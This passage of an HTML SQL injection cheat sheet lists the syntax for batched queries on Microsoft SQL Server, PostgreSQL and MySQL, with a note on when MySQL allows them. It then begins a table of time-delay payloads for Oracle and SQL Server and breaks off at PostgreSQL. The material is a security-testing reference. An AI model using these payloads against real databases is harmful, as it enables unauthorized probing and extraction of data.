     </tr>
    <tr>
        <th>
            Microsoft
        </th>
        <td>
            <code>QUERY-1-HERE; QUERY-2-HERE</code><br />
            <code>QUERY-1-HERE QUERY-2-HERE</code>
        </td>
    </tr>
    <tr>
        <th>
            PostgreSQL
        </th>
        <td>
            <code>QUERY-1-HERE; QUERY-2-HERE</code>
        </td>
    </tr>
    <tr>
        <th>
            MySQL
        </th>
        <td>
            <code>QUERY-1-HERE; QUERY-2-HERE</code>
        </td>
    </tr>
</table>

<div>
    <h4>Note</h4>
    <p>
        With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
    </p>
</div>

<h2>Time delays</h2>
<p>
    You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.
</p>
<table>
    <tr>
        <th>
            Oracle
        </th>
        <td>
            <code>dbms_pipe.receive_message(('a'),10)</code>
        </td>
    </tr>
    <tr>
        <th>
            Microsoft
        </th>
        <td>
            <code>WAITFOR DELAY '0:0:10'</code>
        </td>
    </tr>
    <tr>
        <th>
            PostgreSQL
        </th>
        <td>